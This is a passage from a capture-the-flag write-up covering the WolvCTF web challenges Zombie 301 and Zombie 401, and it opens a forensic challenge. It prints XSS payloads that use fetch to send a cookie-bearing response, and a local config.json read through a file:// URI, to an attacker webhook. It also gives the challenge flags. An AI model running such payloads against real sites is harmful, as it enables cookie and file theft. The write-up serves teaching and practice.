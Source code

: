 ## Zombie 301 {#zombie301}
In this challenge, httponly is still enabled, but debug is disabled. We can steal the admin cookie in HTTP headers by performing an HTTP request inside the website and resending the HTTP response to our webhook.
```
payload :  
<script>
fetch("https://zombie-301-tlejfksioa-ul.a.run.app/")
  .then((data) => fetch("https://<myHook>/?/=".concat(JSON.stringify(data)), { credentials: 'include' }));
</script>
```
Flag : ```wctf{h0w-d1d-y0u-r34d-7h3-3nv-v4r-31831}```

## Zombie 401 {#zombie401}
This time, httonly is disabled and debug is enabled, but the flag is in a file (config.json) hosted by the server. Our goal is to exfiltrate the file content to get the flag throught XSS. I used the "file ://" URI to exfiltrate the flag :
```
<script>
fetch('file:///ctf/app/config.json')
  .then(response => response.text())
  .then(data =>  window.location="https://<MyHook>/?/=".concat(data))
  .catch(error => window.location="https://<MyHook>/?/=".concat(error));
</script>
```
flag : ``` wctf{y0u-4r3-4n-4dm1n-807-m4573r-86835} Zombie 401``` 

# Forensic
## Dino Trading {#dinotraiding}
We open the pcap of this challenge with wireshark: 
![](/assets/wolvctf/Dino_trading.png)
